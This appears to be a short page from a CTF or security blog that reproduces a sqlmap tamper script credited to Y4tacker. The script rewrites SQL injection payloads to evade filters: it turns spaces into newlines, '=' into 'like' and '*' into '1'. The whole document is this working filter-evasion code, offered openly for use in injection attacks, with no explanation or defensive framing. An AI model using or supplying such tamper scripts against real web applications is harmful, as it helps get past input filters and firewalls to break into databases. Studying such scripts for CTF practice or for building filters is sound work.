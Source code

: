 Y4tacker大佬的tamper

```python
#!/usr/bin/env python
"""
Author:Y4tacker
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW


def tamper(payload, **kwargs):
    payload = space2comment(payload)
    return payload


def space2comment(payload):
    retVal = payload
    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == "*":
                retVal += chr(0x31)
                continue

            elif payload[i] == "=":
                retVal += chr(0x0a)+'like'+chr(0x0a)
                continue

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal


```
